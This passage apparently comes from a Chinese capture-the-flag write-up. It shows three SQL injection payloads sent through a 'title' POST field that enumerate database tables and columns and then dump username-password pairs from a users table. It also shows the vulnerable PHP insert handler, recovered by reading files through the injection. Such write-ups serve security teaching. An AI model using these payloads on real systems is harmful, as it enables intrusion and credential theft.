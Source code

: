 ![upload successful](./images/pasted-871.png)
![upload successful](./images/pasted-872.png)
成功拿到key
```
content=&title=QaQ',(Select group_concat(table_name) from information_schema.tables where table_schema='2web'),'admin123')#
content=&title=QaQ',(Select group_concat(column_name) from information_schema.columns where table_schema='2web' and table_name='users1'),'admin123')#
content=&title=QaQ',(Select group_concat(username,'-',password) from users1),'admin123')#
```
PS:这题后续通过SQL注入读取文件发现传参代码逻辑为：
```php
<?php
if(isset($_POST['title']) && isset($_POST['content'])) {
\t$title =sqlzhuru($_POST['title']);
\t$content =sqlzhuru($_POST['content']);
\t$username = $_SESSION['user'];
\t$result = insert_article($title,$content,$username);
 \t\techo '<p style=\"color:red;font-size:32px\">'.$result.'</p>';
}
?>
```
